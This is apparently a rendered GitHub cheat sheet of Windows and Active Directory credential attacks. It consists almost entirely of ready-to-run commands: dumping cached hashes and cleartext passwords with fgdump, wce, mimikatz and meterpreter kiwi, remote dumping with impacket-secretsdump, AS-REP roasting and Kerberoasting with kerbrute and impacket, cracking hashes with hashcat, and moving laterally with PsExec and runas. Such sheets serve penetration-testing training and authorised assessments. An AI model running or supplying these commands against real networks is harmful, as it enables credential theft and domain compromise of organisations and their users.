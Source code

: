 ### Extracting Hashes in cache

  fgdump  -> /usr/share/windows-binaries/fgdump/fgdump.exe
```
fgdump.exe
```
 meterpreter  
```
load kiwi
creds_msv
```
  wce-universal (Clear Text password)  -> /usr/share/windows-resources/wce/wce-universal.exe
```
wce-universal.exe -w
```
 mimikatz
```
.\mimikatz.exe
sekurlsa::wdigest -a full  
sekurlsa::logonpasswords
```
mimikatz - meterpreter  
```
load mimikatz  
wdigest
```

### Extracting Hashes (Remote)

```sh
impacket-secretsdump <user>:<password>@<IP>
```

### AS-REP Roasting Attack - not require Pre-Authentication

  kerbrute - Enumeration Users
```sh
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
```
[Github Userlist](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
 GetNPUsers.py - Query ASReproastable accounts from the KDC
```sh
impacket-GetNPUsers domain.local/ -dc-ip <IP> -usersfile userlist.txt
```

### Kerberoast

  impacket-GetUserSPNs
```
impacket-GetUserSPNs <domain>/<user>:<password>// -dc-ip <IP> -request
```
or  
```
impacket-GetUserSPNs -request -dc-ip <IP> -hashes <hash_machine_account>:<hash_machine_account> <domain>/<machine_name$> -outputfile hashes.kerberoast
```
```
hashcat -a 0 -m 13100 <hash> /usr/share/wordlists/rockyou.txt 
```
```
.\PsExec.exe -u <domain>\<user> -p <password> cmd.exe
```
or  
```
runas /user:<hostname>\<user> cmd.exe
```
